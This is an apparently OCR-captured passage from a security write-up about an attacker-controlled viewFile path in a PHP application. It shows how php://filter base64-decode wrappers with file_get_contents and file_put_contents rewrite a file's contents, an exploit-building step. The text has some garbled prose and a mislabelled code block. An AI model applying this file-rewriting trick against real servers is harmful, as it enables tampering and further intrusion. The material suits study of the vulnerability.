 ```php
    }

    protected function generateExpectedTokens(array $originalTokens, string $variableName): array
    {
        $expectedTokens = [];
        foreach ($originalTokens as $token) {
            $expectedTokens[] = $token;
            if ($token[0] === T_VARIABLE && $token[1] === '$'.$variableName) {
                $expectedTokens[] = [T_WHITESPACE, ' ', $token[2]];
                $expectedTokens[] = [T_COALESCE, '??', $token[2]];
                $expectedTokens[] = [T_WHITESPACE, ' ', $token[2]];
                $expectedTokens[] = [T_CONSTANT_ENCAPSED_STRING, "''", $token[2]];
            }
        }

        return $expectedTokens;
    }

    ...
}
```



This code is a bit more complicated than we expected: it will both the initial file and the new file be tokenized after reading the given file path [1]. 

The only input variable left is viewFile. 

```php
$contents =file_get_contents($parameters['viewFile']);
file_put_contents($parameters['viewFile'], $contents);
```

So far, you may have heard of the upload progress technology of Orange Tsai demonstration. 

```shell
$ echo test | base64 | base64 > /path/to/file.txt
$ cat /path/to/file.txt
ZEdWemRBbz0K
```

```shell
$f = 'php://filter/convert.base64-decode/resource=/path/to/file.txt';
# Reads /path/to/file.txt, base64-decodes it, returns the result
$contents = file_get_contents($f); 
# Base64-decodes $contents, then writes the result to /path/to/file.txt
file_put_contents($f, $contents);
```

```shell
$ cat /path/to/file.txt
test
```

We have changed the contents of the file! 
